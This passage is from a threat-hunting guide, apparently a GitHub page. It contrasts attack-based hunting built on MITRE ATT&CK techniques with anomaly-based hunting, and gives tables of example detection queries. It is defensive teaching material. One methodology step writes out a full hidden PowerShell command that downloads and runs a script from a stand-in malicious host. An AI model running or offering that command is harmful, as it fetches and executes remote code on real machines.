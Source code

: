### **When to Use?**  
✔ After a threat intel report on a new attack method (e.g., Log4Shell).  
✔ To check for **specific APT group behaviors** (e.g., Lazarus Group’s macOS malware).  

### **Methodology:**  
1. **Select a TTP** (e.g., "T1059 - Command-Line Interface").  
2. **Form a Hypothesis** (e.g., "Attackers may use PowerShell for lateral movement").  
3. **Query Logs** (EDR, SIEM) for suspicious command executions.  
4. **Investigate Matches** (e.g., `powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"`).  

### **Example Hunts:**  
| **Tactic (MITRE ATT&CK)**        | **Hunting Query**                                              |
| -------------------------------- | -------------------------------------------------------------- |
| **Persistence (T1547.001)**      | Find `Registry Run Keys` modified by non-admin users.          |
| **Lateral Movement (T1021.004)** | Detect `WMI` or `PsExec` spawning `cmd.exe` on multiple hosts. |
| **Defense Evasion (T1070.004)**  | Search for `event logs cleared` via `wevtutil.exe`.            |



## **2. Analytics-Based Hunting (Anomaly-Driven)**  
### **Definition:**  
Hunting for **statistical outliers** (unusual process behavior, network traffic, user activity).  

### **When to Use?**  
✔ When no known IOCs exist (zero-day attacks).  
✔ To detect **insider threats** or **stealthy malware**.  

### **Methodology:**  
1. **Establish a Baseline** (e.g., "Normal working hours: 8 AM–6 PM").  
2. **Identify Deviations** (e.g., "`lsass.exe` memory dump at 3 AM").  
3. **Investigate Anomalies** (e.g., "Why is `svchost.exe` connecting to a Russian IP?").  

### **Example Hunts:**  
| **Anomaly Type**                   | **Hunting Query**                            |
| ---------------------------------- | -------------------------------------------- |
| **Unusual Process Execution Time** | Find `schtasks.exe` running at midnight.     |
| **Rare Parent-Child Process**      | Detect `word.exe` spawning `powershell.exe`. |
| **Abnormal Network Traffic**       | Look for `beaconing` (e.g., DNS tunneling).  |

## **Comparison: Attack-Based vs. Analytics-Based Hunting**  
| **Factor**    | **Attack-Based Hunting** | **Analytics-Based Hunting**  |
| ------------- | ------------------------ | ---------------------------- |
| **Focus**     | Known adversary TTPs     | Statistical anomalies        |
| **Data Used** | Threat intel, IOCs       | Logs, network traffic        |
| **Best For**  | APTs, malware campaigns  | Insider threats, zero-days   |
| **Speed**     | Faster (targeted)        | Slower (investigation-heavy) |

---